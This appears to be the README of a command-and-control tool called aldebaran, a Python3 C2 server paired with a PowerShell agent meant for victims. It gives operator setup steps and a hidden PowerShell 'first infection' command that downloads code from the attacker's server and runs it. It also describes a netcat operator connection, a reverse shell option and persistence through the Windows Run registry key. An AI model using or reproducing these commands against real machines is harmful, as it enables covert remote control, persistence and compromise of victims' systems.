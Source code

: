 # aldebaran

Python3 C2 server and agent payload.

Uses HTTP protocol with check-in. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
Install requirements with pip3
```pip3 install -r requirements.txt```


## Certificates
You will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d www.your_domain.com --register-unsafely-without-email ```
and copy certs in "darma/certificates/" and/or adjust config.py to point to them
letsencrypt stores certs in /etc/letsencrypt/live/$domain


## Change domain in config.py to match the ones of the certificates

Change payload to point to your server url
## Change domain in :
```
darpa/main.ps1
darpa/oneline.ps1
darpa/pers.ps1

darma/rev.txt
```
``` find ./ -type f -exec sed -i -e 's/dummy\.domain\.com/www\.your_domain\.com/g' {} \; ``` might help
## Change password of c2 server
Change bcrpyt hash in "darma/config.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
Run agent on victim


## Attacker machine
Connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
If deamonized, logging can be found @ ```/var/log/aldebaran.log```

## First infection

Run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://www.your_domain.com/ -Method GET  -UseBasicParsing; iex $command"
```
## Reverese shell
Change the ip and port in darma/resources/rev.txt to make the reverse shell option work

## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Install script
